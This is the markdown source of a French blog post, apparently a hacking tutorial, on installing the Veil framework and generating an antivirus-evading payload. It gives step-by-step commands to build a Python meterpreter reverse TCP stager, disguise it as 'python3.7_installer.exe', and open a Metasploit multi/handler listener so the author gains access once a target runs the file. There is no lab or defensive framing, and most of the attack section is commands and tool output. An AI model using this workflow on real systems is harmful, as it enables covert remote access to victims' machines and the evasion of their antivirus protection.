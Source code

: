 ```yaml
---
author: Funeoz
permalink: /hacking/veil_evasion_antivirus.html
title: Installation et utilisation de Veil (Evasion d'antivirus)
layout: post
category: hacking
redirect_to:
  - https://thelinuxcamp.github.io/hacking/veil_evasion_antivirus.html
---
```


![Veil](/techlovers/assets/2018-10-12/image1veil.jpg) 

Veil (et non pas Veil-evasion qui a été discontinué) permet de rendre indétectable à environ 60% du temps un payload qui sera executé sur la cible. Son installation est très simple.

## Installation

Tout d'abord, git clone le repository :

{% highlight bash %}
$ git clone https://github.com/Veil-Framework/Veil.git
#Puis changer de dossier
$ cd Veil 
#Exécuter le script d'installation
$ ./config/setup.sh --force --silent
{% endhighlight %}

Cela va donc installer toutes les dépendances nécessaires. 

Il va vous être demandé aussi de renseigner le chemin pour Metasploit 
(ex:/opt/metasploit-framework)

## Utilisation

Deux modules sont utilisables dans le framework Veil : Evasion et Ordonance.

Evasion permet donc d'éviter la détection des payloads et Ordnance de générer des shellcode rapidement pour les utiliser avec des exploits ou des payloads. Mais cet article ne porte que sur Evasion.

Si on va dans la partie Evasion en tapant <<use 1>> puis <<list>>, on peut voir que ces payloads peuvent être dans différents languages.
Il faut savoir qu'il existe deux "types" de language : 
- les languages à haut niveau
- les languages à bas niveau

Par exemple, le Python est un language à haut niveau. Ce qui veut dire qu'il est proche des languages réels, donc plus simple à écrire. Donc les payloads auront plus de chance à être détectés.

Alors que le go est un language à bas niveau qui se rapproche du language machine.
Donc plus compliqué à être détecté.

On va donc pour l'exemple prendre le payload 28. Pour cela <<use 28>>

On tombe donc sur pleins d'options :

{% highlight bash %}
Veil/Evasion>: use 28
===============================================================================
                                   Veil-Evasion
===============================================================================
      [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
===============================================================================

 Payload Information:

        Name:           Pure Python Reverse TCP Stager
        Language:       python
        Rating:         Excellent
        Description:    pure windows/meterpreter/reverse_tcp stager, no
                        shellcode

Payload: python/meterpreter/rev_tcp selected

 Required Options:

Name                    Value           Description
----                    -----           -----------
CLICKTRACK              X               Optional: Minimum number of clicks to execute payload
COMPILE_TO_EXE          Y               Compile to an executable
CURSORMOVEMENT          FALSE           Check if cursor is in same position after 30 seconds
DETECTDEBUG             FALSE           Check if debugger is present
DOMAIN                  X               Optional: Required internal domain
EXPIRE_PAYLOAD          X               Optional: Payloads expire after "Y" days
HOSTNAME                X               Optional: Required system hostname
INJECT_METHOD           Virtual         Virtual, Void, or Heap
LHOST                                   The listen target address
LPORT                   4444            The listen port
MINRAM                  FALSE           Check for at least 3 gigs of RAM
PROCESSORS              X               Optional: Minimum number of processors
SANDBOXPROCESS          FALSE           Check for common sandbox processes
SLEEP                   X               Optional: Sleep "Y" seconds, check if accelerated
USERNAME                X               Optional: The required user account
USERPROMPT              FALSE           Make user click prompt prior to execution
USE_PYHERION            N               Use the pyherion encrypter
UTCCHECK                FALSE           Optional: Validates system does not use UTC timezone
VIRTUALDLLS             FALSE           Check for dlls loaded in memory
VIRTUALFILES            FALSE           Optional: Check if VM supporting files exist

 Available Commands:

        back            Go back to Veil-Evasion
        exit            Completely exit Veil
        generate        Generate the payload
        options         Show the shellcode's options
        set             Set shellcode option

[python/meterpreter/rev_tcp>>]:
{% endhighlight %}

Ce qui va nous être utilise est de juste renseigner l'adresse de notre ordinateur pour le LHOST grâce à ifconfig, puis génerer le payload : 

{% highlight bash %}
[python/meterpreter/rev_tcp>>]: set LHOST (votreip)
#generation du payload
[python/meterpreter/rev_tcp>>]: generate
{% endhighlight %}

Le module va ensuite demander le nom de fichier que vous voulez donner (ex: python3.7_installer) :

{% highlight bash %}
[>] Please enter the base name for output files (default is payload): python3.7_installer
#Attention:remplacez les espaces par des tirets bas.
{% endhighlight %}

Puis celui-ci va vous demander quel module vous voulez utiliser pour générer l'exécutable (pour moi, ce sera PyInstaller) :

{% highlight bash %}
[?] How would you like to create your payload executable?

     1 - PyInstaller (default)
     2 - Py2Exe

 [>] Please enter the number of your choice: 1
{% endhighlight %}

Le fichier va donc être généré et est disponible à :

{% highlight bash %}
$ cd /var/lib/veil/output/compiled
$ ls
$ python3.7_installer.exe
{% endhighlight %}

Il faudra ensuite lancer msfconsole, sélectionner l'exploit exploit/multi/handler et le payload python/meterpreter/reverse_tcp

{% highlight bash %}
$ msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST (votreip)
LHOST => (votreip)
msf5 exploit(multi/handler) > run
{% endhighlight %}

La session va donc être lancé puis il faudra que la personne exécute le fichier et voilà, vous aurez accès à votre cible.














